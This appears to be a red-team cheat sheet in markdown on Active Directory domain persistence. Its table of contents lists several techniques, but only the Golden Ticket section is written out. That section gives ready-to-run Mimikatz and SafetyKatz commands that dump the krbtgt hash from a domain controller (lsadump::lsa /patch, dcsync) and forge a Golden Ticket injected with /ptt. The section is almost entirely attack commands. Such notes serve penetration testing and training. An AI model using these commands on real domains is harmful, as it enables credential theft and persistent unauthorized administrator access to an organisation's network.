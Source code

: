 # Domain persistence
* [Golden Ticket](#Golden-Ticket) 
* [Silver Ticket](#Silver-Ticket)
* [Skeleton Key](#Skeleton-Key)
* [DSRM](#DSRM)
* [Custom SSP - Track logons](#Custom-SSP---Track-logons)
* [ACL](#ACL)
  * [AdminSDHolder](#AdminSDHolder)
  * [DCsync](#DCsync)
  * [SecurityDescriptor - WMI](#SecurityDescriptor---WMI)
  * [SecurityDescriptor - Powershell Remoting](#SecurityDescriptor---Powershell-Remoting)
  * [SecurityDescriptor - Remote Registry](#SecurityDescriptor---Remote-Registry)
  * [msDS-AllowedToDelegateTo](#msDS-AllowedToDelegateTo)
* [Computer Account](#Computer-Account)
* [Active Directory Certificate Services](#Active-Directory-Certificate-Services)

## Golden ticket
- https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets

#### Dump hashes of DC
- Get the krbtgt hash
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <COMPUTERNAME>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'
```

```
.\SafetyKatz.exe "lsadump::lsa /patch" "exit"
.\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

#### Create a Golden ticket
- Use /ticket instead of /ptt to save the ticket to file instead of loading in current powershell process
- To get the SID use ```Get-DomainSID``` from powerview
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /krbtgt:<HASH> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /krbtgt:<HASH> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

#### Use the DCSync feature for getting krbtgt hash. Execute with DA privileges
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'
```
